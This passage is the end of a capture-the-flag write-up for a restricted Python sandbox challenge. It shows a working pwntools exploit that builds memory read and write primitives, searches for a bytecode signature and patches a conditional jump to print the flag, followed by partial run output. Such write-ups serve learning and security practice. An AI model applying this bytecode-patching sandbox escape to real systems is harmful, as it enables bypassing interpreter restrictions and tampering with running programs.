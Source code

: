 ```
0x72 0x54  ~=  72 86 POP_JUMP_IF_FALSE        268
0x65 0x10  ~=  65 10 LOAD_NAME                print
0x64 0x10  ~=  64 13 LOAD_CONST               Congrats, here's your flag: shc2023{https://bit.ly/3CSyf5P}
0x83 0x01  ~=  83 01 CALL_FUNCTION            1
```

(left: bytes found with GDB, right: bytes from the original disasembly).

So, our target code signature is: `[0x72, 0x54, 0x65, 0x10, 0x64, 0x10, 0x83, 0x01]` and we will be
looking *down* from the address of a test variable that we create. And that worked - and this time
it was reproducible, both with GDB and primitive functions defined in the restricted program.

# The exploit

From here it was easy:

```python
import pwn
pwn.context(arch='amd64', os='linux', encoding='ascii', log_level='warning')
io = pwn.remote('127.0.0.1', 5000, ssl=False)

def run(cmd, finish="n"):
    print(io.readuntilS(">>> "), cmd)
    io.sendline(cmd)
    print(io.readuntilS("Exit (y/n)?: "), finish)
    io.sendline(finish)

run("def get8(a): return getattr(from_address(a), 'value') & 0xFF")
run("def get64(a): return getattr(from_address(a), 'value') & 0xFFFFFFFFFFFFFFFF")
run("def set8(a, b): setattr(from_address(a), 'value', ((get64(a) & 0xFFFFFFFFFFFFFF00) | (b & 0xFF)))")
run("def looksLikeTarget(a): return get8(a)==0x72 and get8(a+1)==0x54 and get8(a+2)==0x65 and get8(a+3)==0x10 and get8(a+4)==0x64 and get8(a+5)==0x10 and get8(a+6)==0x83 and get8(a+7)==0x01")
run("a = 1")
run("b = id(a)")
run("while not looksLikeTarget(b): b = b - 1")
run("set8(b, 0x09)")
run("set8(b+1, 0x00)", "y")
print(io.recvallS())
io.close()
```

... and that worked perfectly fine, both locally and with remote instance:

```
$ ./exploit.py 
>>>  def get8(a): return getattr(from_address(a), 'value') & 0xFF
None
Exit (y/n)?:  n
>>>  def get64(a): return getattr(from_address(a), 'value') & 0xFFFFFFFFFFFFFFFF
None
Exit (y/n)?:  n
>>>  def set8(a, b): setattr(from_address(a), 'value', ((get64(a) & 0xFFFFFFFFFFFFFF00) | (b & 0xFF)))
None
Exit (y/n)?:  n
>>>  def looksLikeTarget(a): return get8(a)==0x72 and get8(a+1)==0x54 and get8(a+2)==0x65 and get8(a+3)==0x10 and get8(a+4)==0x64 and get8(a+5)==0x10 and get8(a+6)==0x83 and get8(a+7)==0x01
None
Exit (y/n)?:  n
>>>  a = 1
None
Exit (y/n)?:  n
>>>  b = id(a)
```